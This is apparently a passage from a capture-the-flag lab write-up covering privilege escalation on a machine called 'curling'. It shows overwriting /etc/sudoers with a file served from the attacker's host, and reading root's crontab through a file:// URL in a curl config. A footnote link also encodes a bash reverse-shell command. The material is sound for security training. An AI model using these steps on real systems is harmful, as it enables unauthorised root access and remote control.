 #### Get root using sudoers

Prepare sudoers host:

```bash
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
```

Modify input:

```bash
url = "10.10.17.201/sudoers"
output = "/etc/sudoers"
user-agent = "superagent/1.0"
```

Serve sudoers:

	sudo python -m SimpleHTTPServer 80

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.129.79.91 - - [10/Jul/2021 16:23:01] "GET /sudoers HTTP/1.1" 200 -
 3
```

	sudo su -
	root@curling:~#

#### Get root using crontabs

	echo 'url = "file:///var/spool/cron/crontabs/root"' > input 
	watch -n 1 cat report


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency